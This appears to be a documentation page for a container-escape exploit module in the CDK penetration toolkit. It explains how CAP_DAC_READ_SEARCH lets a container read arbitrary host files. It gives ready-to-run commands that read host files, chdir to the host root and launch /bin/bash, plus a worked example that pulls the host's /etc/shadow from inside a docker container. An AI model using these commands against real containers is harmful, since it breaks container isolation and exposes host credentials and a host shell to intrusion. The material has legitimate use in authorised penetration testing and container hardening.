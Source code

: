 # Exploit: cap-dac-read-search

Thanks @nikitastupin & @verctor.

If container is run with `CAP_DAC_READ_SEARCH` capability it is able to read arbitrary file from host system. This is possible because `CAP_DAC_READ_SEARCH` gives ability to bypass DAC (discretionary access control) checks and open files by file handles which are global file identifiers. Original exploit can be found at http://stealth.openwall.net/xSports/shocker.c.

# Usage

```bash
# read file from host
./cdk run cap-dac-read-search <target>

# specify bind mount point file path and read file
./cdk run cap-dac-read-search /etc/hosts /tmp/pwn

# when target file is /, this exploit will chdir to host root and execute a command(default: /bin/bash)
./cdk run cap-dac-read-search /etc/hosts /

# also you can specify what command to be executed, but cdk will recognize the string starting with'-' as its own option, so only some simple commands can be used
./cdk run cap-dac-read-search /etc/hosts / cat /tmp/pwn
```

# Example

1. Build `cdk`
1. Run a docker container `docker run -it --rm --cap-add CAP_DAC_READ_SEARCH -v "$(pwd)/cdk":/cdk ubuntu /bin/bash` 1. Run `cdk` exploit inside the container `cdk run cap-dac-read-search /etc/shadow /etc/hosts`

You should get `/etc/shadow` from host:

![host-shadow](https://user-images.githubusercontent.com/18281368/116560938-83be8380-a90a-11eb-9c07-5c58cc7a19b8.png)

Verify that `/etc/shadow` from container is different:

![container-shadow](https://user-images.githubusercontent.com/18281368/116560929-81f4c000-a90a-11eb-8ed1-cce4692a6b48.png)

ref: https://github.com/cdk-team/CDK/pull/27